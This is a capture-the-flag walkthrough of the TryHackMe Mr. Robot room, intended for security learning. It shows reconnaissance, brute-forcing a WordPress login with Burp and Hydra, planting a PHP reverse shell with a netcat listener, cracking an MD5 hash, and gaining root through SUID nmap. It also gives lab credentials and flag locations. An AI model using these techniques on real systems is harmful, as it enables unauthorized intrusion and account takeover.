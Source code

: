 # [Mr. Robot CTF][1]

#### Scan the Machine
> If you are unsure how to tackle this, I recommend checking out the [Nmap Tutorials by Hack Hunt][2].

`nmap -sV -Pn <IP>`

![Nmap Scan](images/open_ports.jpg)

Looks like we have two ports open: `80, 443`

> Let's check the webpage. The webpage is fascinating but nothing much to work with.

Run a GoBuster -> `gobuster dir -u http://<IP> -w /usr/share/wordlists/dirb/common.txt -t 50`

It will take few minutes to finish and you will get a lot of directories. The important ones are:
- /robots.txt
- /license -> *This is fascinating page, must check* :stuck_out_tongue_winking_eye:
- /login
- /wp_login

#### ROBOTS.TXT

![Robot.txt](images/robots.jpg)
- `key-1-of-3.txt`: Open the file, there is your first key.
- `fsocity.dic`: Download the file. I opened the file looks like a lots of words.

![Total Words](images/total_words.jpg)

#### LICENSE
Sorry! for wasting your time there.

#### LOGIN
> It seems a redirection to **wp-login.php**.

![Login Page](images/login_page.jpg)

Putting pieces together:
- **Dictionary** with a lot of Words.
- **Login** Page.

> Vola! We can bruteforce. Dictionary is a key/value pair, so it can have username and password both. Fireup your **BurpSuite**

We can bruteforce **username** and **password** together but the total combination will be to much. So first we will try `username` and then `password`.

1. Intercept the reqeust.
2. Send it to Intruder.
3. Add only username.

![BurpSuite](images/burp_username.jpg)

4. Select `fsocity.dic` as a payload and start the attack.

![Username](images/username.jpg)

> ***BAAM! Username found.*** It's **Elliot** *(obviously)*.

Now that we have username, we can run the same attack for password. HEADSUP! I did that and it took like forever. Therefore, I recommend you guys to use Hydra -> `hydra -l Elliot -P fsocity.dic 10.10.51.99 http-form-post "/wp-login.php:log=^USER^&pwd=^PWD^: The password you entered"`
> You can get the `log=` part from the BurpSuite when you intercepted the request.

The reason is, it will take too much time as the password is at line **858,151**. Password is ***ER28-0652*** *(this is Elliot's Employee Number)*

![Grep Pass](images/grep_pass.jpg)

Log in with `Elliot:ER28-0652`.  

![Login](images/got_access.jpg)
> We have the access to the PANEL. Search around and look for something interesting.

After spending a bit of time around. I found an injection point as Image Upload. I tried different things but it was hard-coded. Later, I found the page edit option `Appearance > Editor`; which has `.php` file.

So can we can add [reverse-shell.php][3] in any of the pages. I will be using `404.php` but you can also use any other `.php`.

![404 Page](images/404.jpg)

Paste the [reverse-shell][3] code and change the `IP` to your IP and the `PORT`.

![Change Port](images/change_this.jpg)

Before opening the page, start a netcat listener using cmd `nc -lvnp 4444`

![Listener](images/listener.jpg)

Save the webpage and go to `http://<IP>/404.php`. You will see a connection. First things First, we will stable the shell using `python -c 'import pty;pty.spwan("/bin/bash")'`

![Shell Stable](images/shell_stable.jpg)

There is flag in `/home/robot` but we do not have permission to read it.

![Cannot Read files](images/cant_read.jpg)

But we do have permission to read `password.raw-md5` file.

![Content](images/content.jpg)

Looks like user `robot` and its password hashed as `Raw-MD5`. We can crack this using [Crack Station][4] or ***JohnTheRipper*** -> `john hash.txt --wordlist=fsocity.dic --format=Raw-MD5`.

![Crack Station](images/crackstation.jpg)
> I used [Crack Station][3]. Credential -> `robot:abcdefghijklmnopqrstuvwxyz`

We can login as `robot` using `su` command.

![Robot User](images/robot_user.jpg)

Now that we have access as `robot`, we can read `key-2-of-3.txt`.

![Key 2](images/key2.jpg)


### Privilege Escalation

Didn't found anything interesting using `sudo -l`, so I tried looking for **SUIDs** using `find / -perm -4000 -type f -exec ls -la {} 2>/dev/null \; | grep '/bin'`
> Reference -> [PayloadsAllTheThings][5]

![SUID](images/suids.jpg)

Nmap is available, wonder if Hint was for this one. Go to [GTFOBins][6] and search for **Nmap**. I ran **(b)** script of Shell section.

![SUID Nmap](images/nmap.jpg)

You know what to do next :stuck_out_tongue_winking_eye:

![Key 3](images/key3.jpg)

[1]: https://tryhackme.com/room/mrrobot
[2]: https://blog.hackhunt.in/search/label/Nmap
[3]: https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php
[4]: https://crackstation.net/
[5]: https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Linux%20-%20Privilege%20Escalation.md#suid
[6]: https://gtfobins.github.io/
